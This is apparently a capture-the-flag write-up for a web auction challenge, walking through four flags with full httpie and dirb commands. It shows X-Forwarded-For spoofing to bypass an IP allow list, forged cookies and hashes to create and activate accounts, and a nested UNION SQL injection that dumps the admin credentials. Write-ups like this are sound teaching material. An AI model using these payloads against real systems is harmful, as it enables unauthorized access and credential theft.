 
## Flag 1

Try to guess the path, in ``robots.txt``

```html
User-agent: *
Disallow: s3cr3t-4dm1n/
```

But it gives a ``403`` response while accessing ``s3cr3t-4dm1n``. Try to scan any subpath in ``s3cr3t-4dm1n/`` with ``dirb``.

```bash
dirb http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n ../dirb222/wordlists/common.txt
```

```bash
---- Scanning URL: http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ ----                                                                                       
+ http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/.htaccess (CODE:200|SIZE:69)
...
```

Now we have an accessible path ``.htaccess``. Request the file it with ``httpie``.

```html
http -v http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/.htaccess

GET /c9c213fc7b/s3cr3t-4dm1n/.htaccess HTTP/1.1
User-Agent: HTTPie/1.0.3
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Host: 35.227.24.107



HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 29 Mar 2021 06:16:00 GMT
Content-Type: plain/text
Transfer-Encoding: chunked
Connection: keep-alive
Content-disposition: attachment; filename=.htaccess

Order Deny,Allow
Deny from all
Allow from 8.8.8.8
Allow from 8.8.4.4
```

Allowed IPs are ``8.8.8.8`` and ``8.8.4.4``. Now try to request ``s3cr3t-4dmin`` again with one of these IPs.

```
http -v GET http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ X-Forwarded-For:8.8.8.8
```

In response there is one flag and admin login form.


## Flag 2

Register a user account and login with it, there are four options in dashboard. Switch to subusers, it allows us to register subuser under current user account. The request needs three parameters, ``owner_hash``, ``new_username`` and ``new_password``. It's slightly different from register form at home page, try to request a new account with ``owner_hash`` parameter and the value is account hash of user ``hunter2``. Account hash of user ``hunter2`` is located in a hidden field in password reset page.

```bash
http -v --form POST http://35.227.24.107/c9c213fc7b/register owner_hash=cf505baebbaf25a0a4c63eb93331eb36 new_username=888 new_password=onetwo
```

Now the new user ``888`` has been created, login with it, the account is still awaiting activation, but we get the second flag.


## Flag 3


To activate user ``888``, we need to login as another user ``one`` to use the subuser enable function, but change the subuser hash to ``888``'s account hash and ``userhash`` in cookie to ``hunter2``'s account hash.

```bash
http -v --form POST http://35.227.24.107/c9c213fc7b/dashboard/subusers \
  "Cookie:token=MzY4MGM4Nzg5YTQzMTEwYzc4MmZjZmNjZTg5ODJhYTc5NWUyZDU4OWZlZTNkMmFlZjliZDBlNjgwNjQ1ZGQzMDQ2YWYyZTAzYmU1Mzk3MzEzMjA1YTQxYzdkNDYwYWI3OTRjZGI4Y2UzODBmOTdmZWQ3MmExZjgyYWQwZGU2YjM%3D;userhash=cf505baebbaf25a0a4c63eb93331eb36"\
  hash=1997b46b3fea065fa085562a6a6dcc09\
  enable_toggle=enable

```

After the previous step, logout user ``one`` and login as user ``888``, the third flag is right under user details.


## Flag 4

In source code of ``Your Auctions`` section exists a subpath``auctions/questions``, it takes one parameter ``id``, which is auction type id from ``1`` to ``5``.

```js
{"name":"Desktops","questions":[{"question":"Make","field_name":"field_4728_186574"},{"question":"Model","field_name":"field_5738_281961"},{"question":"RAM","field_name":"field_5051_369408"},{"question":"Processors","field_name":"field_4032_347621"}],"auctions":[{"id":"1","title":"Ultra Desktop"},{"id":"9","title":"Premium Desktop"},{"id":"10","title":"Work Station"}]}
```

If we give it ``id=0``, error message returns.

```js
{"error":"Invalid auction type ID entered"}
```

A normal response contains three fields, ``name``, ``questions`` and ``auctions``. Try to use ``union`` to guess some information out of it. 


```sql
0 union select '0 union select 1',2,'[]' --
```

Payload above give us the following response.

```js
{"name":"[]","questions":[],"auctions":[]}
```

Keep adding column numbers until something different shown.

```sql
0 union select '0 union select 1,2,3,4,5,6,7,8,9',10,'[]' --
```

In response column ``1`` was taken as auction id, column ``6`` was taken as title and name was replaced by ``10``.

```js
{"name":"10","questions":[],"auctions":[{"id":"1","title":"6"}]}
```

Now chage ``1`` to ``table_name`` to get table names from ``information_schema``.

```sql
0 union select '0 union select table_name,2,3,4,5,6,7,8,9 from information_schema.tables',10,'[]' --
```

In output, table ``admin`` and ``auction`` are interesting.

```js
{"name":"10","questions":[],"auctions":[{"id":"admin","title":"6"},{"id":"auction","title":"6"},
{"id":"ALL_PLUGINS","title":"6"},{"id":"APPLICABLE_ROLES","title":"6"},
{"id":"CHARACTER_SETS","title":"6"},{"id":"COLLATIONS","title":"6"},
{"id":"COLLATION_CHARACTER_SET_APPLICABILITY","title":"6"},
{"id":"COLUMNS","title":"6"},
{"id":"COLUMN_PRIVILEGES","title":"6"},
{"id":"ENABLED_ROLES","title":"6"},
{"id":"ENGINES","title":"6"},
{"id":"EVENTS","title":"6"},
{"id":"FILES","title":"6"},
...
```

Try to list columns in table ``admin``.

```sql
0 union select '0 union select COLUMN_NAME,2,3,4,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name="admin"',10,'[]' --
```

```js
{"name":"10","questions":[],"auctions":[{"id":"id","title":"6"},{"id":"username","title":"6"},{"id":"password","title":"6"}]}
```

Now we know there are three columns in the table, try to fetch ``username`` and ``password`` from it, replace column ``1`` with ``username`` and column ``6`` with ``password``.

```sql
0 union select '0 union select username,2,3,4,5,password,7,8,9 from admin',10,'[]' --
```

```js
{"name":"10","questions":[],"auctions":[{"id":"h4ckerbayadmin","title":"auction$rFun!"}]}
```

So the username is ``h4ckerbayadmin`` and password is ``auction$rFun!``.

Remember the admin login page we get before? Now login with correct credential.

```bash
http -v --form POST http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ \
  X-Forwarded-For:8.8.8.8 \
  username=h4ckerbayadmin \
  password="auction\$rFun!" 
```

Access admin page with received token.

```bash
http -v GET http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/\
  X-Forwarded-For:8.8.8.8 \
  Cookie:admin-token=DF120B994C5FD4377A42F55D086F6EF7
```

Input the auction hash shown in ``dashboard/auctions`` page while login as ``888``.

```bash
http -v --form POST http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/\
  X-Forwarded-For:8.8.8.8 \
  Cookie:admin-token=DF120B994C5FD4377A42F55D086F6EF7 \
  auction_hash=8ylbbgs2
```

Delete it with ``action=delete``

```bash
http -v --form POST http://35.227.24.107/c9c213fc7b/s3cr3t-4dm1n/ \
  X-Forwarded-For:8.8.8.8 \
  Cookie:admin-token=DF120B994C5FD4377A42F55D086F6EF7 \
  auction_hash=8ylbbgs2 \
  action=delete
```

The last flag is in response.
